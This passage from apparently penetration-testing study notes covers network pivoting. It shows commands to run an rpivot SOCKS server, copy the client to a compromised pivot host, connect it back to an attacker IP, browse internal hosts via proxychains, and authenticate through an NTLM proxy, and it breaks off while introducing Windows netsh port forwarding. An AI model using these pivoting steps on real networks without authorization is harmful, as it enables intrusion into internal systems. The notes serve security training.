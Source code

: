 
We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections:
```console
zero@pio$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:
```console
zero@pio$ scp -r rpivot ubuntu@<Pivot Host>:~/
```

```console
ubuntu@pivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

Now we wil be connected to the machine. Finally, we should be able to access the webserver on our server-side:
```console
zero@pio$ proxychains firefox-esr 172.16.5.135:80
```

Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password:
```console
zero@pio$ python client.py --server-ip <<TARGET> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <NAME OF WINDOWS DOMAIN> --username <USERNAME> --password <PASSWORD>
```

## Port Forwarding with Windows Netsh 

Netsh is a Windows command-line tool that can help with the network configuration of a particular Windows system. Here are just some of the networking related tasks we can use Netsh for:
- Finding routes
- Viewing the firewall configuration
- Adding proxies
- Creating port forwarding rules

![Windows Netsh](/assets/img/notes/system/88.png)
